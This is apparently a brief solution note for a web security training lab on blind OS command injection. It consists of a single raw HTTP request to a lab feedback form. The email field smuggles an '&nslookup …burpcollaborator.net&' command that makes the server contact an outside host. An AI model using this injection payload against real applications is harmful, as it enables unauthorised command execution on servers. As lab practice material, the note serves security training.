

# Lab: Blind OS command injection with out-of-band interaction

```bash
POST /feedback/submit HTTP/1.1
Host: acde1fb31ef01616c0faff42005800f8.web-security-academy.net
Cookie: session=ICrpnidujzgK52RyckoStLV4ONUiBwTE
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 146
Origin: https://acde1fb31ef01616c0faff42005800f8.web-security-academy.net
Referer: https://acde1fb31ef01616c0faff42005800f8.web-security-academy.net/feedback
Te: trailers
Connection: close

csrf=QW7EQtjS74OOGzPTUk12uotKcz3gW7i2&name=test&email=%26nslookup+w85e2yn8al8ew9rf0f1nzdm8xz3pre.burpcollaborator.net%26&subject=test&message=test
```



